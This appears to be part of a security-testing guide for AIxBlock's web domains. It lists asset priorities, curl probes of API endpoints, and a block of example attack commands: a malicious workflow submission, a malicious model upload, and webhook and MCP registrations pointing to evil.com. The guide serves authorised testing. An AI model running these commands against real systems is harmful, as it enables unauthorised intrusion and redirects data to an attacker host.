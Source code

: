 
## **🎯 AIxBLOCK-SPECIFIC TESTING FRAMEWORK**

### **Target Domains and Asset Values**
- **`workflow.aixblock.io``** - Workflow Engine (Critical)
- **`api.aixblock.io`** - Model management & workflow execution (Critical)
- **`app.aixblock.io`** - Primary UI (High)
- **`webhook.aixblock.io`** - Inbound hooks (Medium)
- **`mcp.aixblock.io`** - MCP Layer (Medium)

### **AIxBlock-Specific Endpoint Testing**
```bash
# Critical Assets (High Priority)
# workflow.aixblock.io - Workflow Engine
curl -s "https://workflow.aixblock.io/api/v1/flags" -v
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v
curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v
curl -s "https://workflow.aixblock.io/api/v1/flows" -v
curl -s "https://workflow.aixblock.io/api/v1/executions" -v

# api.aixblock.io - Model management & workflow execution
curl -s "https://api.aixblock.io/api/v1/models" -v
curl -s "https://api.aixblock.io/api/v1/workflows" -v
curl -s "https://api.aixblock.io/api/v1/executions" -v

# app.aixblock.io - Primary UI
curl -s "https://app.aixblock.io/api/v1/user" -v
curl -s "https://app.aixblock.io/api/v1/projects" -v
curl -s "https://app.aixblock.io/api/v1/settings" -v

# Medium Assets
# webhook.aixblock.io - Inbound hooks
curl -s "https://webhook.aixblock.io/api/v1/webhooks" -v

# mcp.aixblock.io - MCP Layer
curl -s "https://mcp.aixblock.io/api/v1/connections" -v
```

### **AIxBlock-Specific Vulnerability Patterns**
```bash
# Workflow execution vulnerabilities
curl -s "https://workflow.aixblock.io/api/v1/execute" -d "workflow=malicious_workflow" -v

# Model management vulnerabilities
curl -s "https://api.aixblock.io/api/v1/models/upload" -F "model=@malicious_model.py" -v

# Webhook manipulation
curl -s "https://webhook.aixblock.io/api/v1/webhooks" -d "url=https://evil.com/webhook" -v

# MCP connection vulnerabilities
curl -s "https://mcp.aixblock.io/api/v1/connect" -d "endpoint=https://evil.com/mcp" -v
```

---